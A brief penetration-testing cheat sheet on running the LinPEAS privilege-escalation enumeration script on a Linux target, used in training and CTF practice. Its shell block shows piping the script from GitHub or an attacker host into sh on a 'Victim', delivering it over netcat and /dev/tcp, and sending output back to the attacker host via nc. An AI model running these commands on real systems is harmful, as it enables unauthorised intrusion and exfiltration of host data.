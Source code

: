 
### Overview
---
When all else fails and your back is against the wall, you can use ``LinPEAS`` from the [PEASS-ng](https://github.com/carlospolop/PEASS-ng/) project and be bombarded with more information than you could ever want.

>[!warning]
> Be prepared for a gratuitous amount of false positives.


### General Usage
---
```shell
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
